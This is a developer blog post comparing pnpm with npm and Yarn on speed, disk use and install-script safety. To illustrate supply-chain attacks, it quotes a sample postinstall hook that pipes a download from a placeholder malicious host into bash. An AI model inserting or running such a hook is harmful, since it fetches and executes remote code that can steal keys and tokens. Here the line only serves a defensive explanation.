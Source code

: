 ```yaml
---
title: "PNPM – When Devs No Longer Wait for NPM to “Run Errands”"
description: "If install time feels like waiting on someone else’s grocery trip, it’s time to let pnpm take over."
pubDate: "2025-10-29"
published: true
tags: ["pnpm", "npm", "tooling", "package manager"]
slug: "pnpm-when-devs-stop-waiting-for-npm"
author: "Hien Nguyen"
ogTitle: "PNPM – When Devs No Longer Wait for NPM to Run Errands"
ogDescription: "If install time depends on NPM’s grocery run, it’s time for pnpm to handle it."
pairSlug:
  vi: "pnpm-khi-dev-khong-can-cho-npm-di-cho-giup-minh-nua"
---
```


# ⚡ PNPM – When Devs No Longer Wait for NPM to “Run Errands”

> “npm install” cranks your fans and nukes your disk? Time to give **pnpm** a spin.

---

## 🧩 The Familiar Story

You clone a repo and run:

```bash
npm install
```

And then… you wait.  
And wait.  
And keep waiting.

Maybe you try **Yarn**—a bit better—but it still downloads the same package ten times for ten different projects.  
`node_modules` bloats into gigabytes, disks fill up, and CI crawls like a sleepy turtle.

That was the scene before **pnpm** showed up.

---

## 🚀 How PNPM Differs from NPM and Yarn

In short: **pnpm stores dependencies completely differently.**

| Mechanism       | NPM / Yarn                              | PNPM                                                                      |
| --------------- | --------------------------------------- | ------------------------------------------------------------------------- |
| Storage         | Copies every package per project        | Uses a **global content-addressable store**; projects just **symlink** in |
| Disk Usage      | Heavy, lots of duplication               | Very light; saves tons of space                                           |
| Install Speed   | Average                                  | **2–3× faster** (cache + hard links)                                      |
| Version Control | Managed per project                      | Laser-accurate thanks to **strict symlink resolution**                    |
| Script Security | **Automatically runs `postinstall`**     | **Doesn’t run scripts unless you opt in**                                 |

---

## 🔒 Security — PNPM’s Underrated Superpower

This is the piece many devs overlook—but it’s huge.

### ❌ The Problem with NPM/Yarn

When you run `npm install` or `yarn install`,  
packages can **auto-run scripts** like:

```json
"scripts": {
  "postinstall": "curl malicious-site.com | bash"
}
```

If you’re not auditing closely—or your CI isn’t sandboxed—that code just executed on your machine. Supply-chain attacks like this are everywhere: pull a Node.js repo (maybe for a coding test), run `npm i`, and boom—malware fires, scraping env vars for API keys, GitHub tokens, AWS creds. In September 2025 several popular packages such as `chalk` and `debug` were compromised, cascading into hundreds of dependents; the “Shai-Hulud” worm replicated across millions of installs, leaking secrets simply because install scripts auto-ran. This is a **classic attack vector**, especially dangerous for juniors or teams that don’t audit dependencies.

### ✅ PNPM Handles It Smarter

- **No script runs by default**—you have to explicitly allow it.
- You can set `--ignore-scripts` globally in `.npmrc`:
  ```bash
  pnpm install --ignore-scripts
  ```
- Keeps **third-party payloads dormant**—grab a random repo, run `pnpm i`, and malicious scripts stay asleep instead of stealing keys or spreading.
- PNPM also sandboxes `node_modules`, preventing **module A from overriding module B**—attacks such as _prototype pollution_ or _dependency shadowing_ basically disappear.

> 🧠 Translation: pnpm installs packages without blindly trusting them—exactly what you want after the latest supply-chain incidents.

---

## 🧠 A Different Design Mindset

### 1️⃣ “Global Store” — Smart Disk Usage

PNPM keeps dependencies in a single global store (by default: `~/.pnpm-store`).  
Each package exists **once**—projects just link to it.

```bash
# First project
pnpm install

# Another project later
pnpm install   # Almost instant; packages already cached
```

### 2️⃣ “Strict Linking” — No Loose Dependencies

PNPM builds `node_modules` via a custom “virtual store.”  
Dependencies can only reach modules declared in `package.json`.

Benefits:

- No more “hidden dependency” bugs (importing something you never declared).
- Builds are reproducible—CI won’t fail because someone’s laptop leaked globals.

---

## 🧰 Quick Migration

Already on NPM or Yarn?

```bash
npm install -g pnpm
# Or on Node 18+ with corepack
corepack enable pnpm
```

Switch your scripts:

```bash
pnpm install
pnpm run dev
```

Everything else—scripts, tooling—keeps working.  
You’ll feel the speed boost on the first run.

---

## ⚖️ When Not to Switch (Yet)

- Teams running **Yarn 1 workspaces + heavy custom plugins**—test carefully.
- Legacy CI/CD stacks without pnpm cache support.
- A few tools (rare) still assume classic `node_modules` structure.

That said, with **Node 18+ and corepack**, pnpm is now silky smooth.  
Vercel, Turborepo, Nx, Cloudflare Workers—they all support it out of the box.

---

## 💬 TL;DR

|                 | NPM               | Yarn        | PNPM                                   |
| --------------- | ----------------- | ----------- | -------------------------------------- |
| Speed           | 🐢                | ⚡          | 🚀                                     |
| Disk Usage      | Heavy             | Medium      | Very light                             |
| Script Safety   | Auto-runs scripts | Auto-runs   | **Doesn’t run unless you allow it**    |
| Global Cache    | ❌                | ✅ (partial) | ✅ (full)                               |
| Isolation       | Low               | Medium      | **High (symlink isolation)**           |
| Best For        | Any small/legacy  | Mid-size    | **Pro teams / modern CI pipelines**    |

---

## 🔗 Official Resources

- [pnpm.io](https://pnpm.io)
- [PNPM store structure](https://pnpm.io/symlinked-node-modules-structure)
- [Corepack & pnpm setup](https://nodejs.org/api/corepack.html)

---

✍️ _Written by a dev whose `node_modules` used to outweigh the source code.  
With pnpm the disk stays slim, builds fly, and CI stays calm._

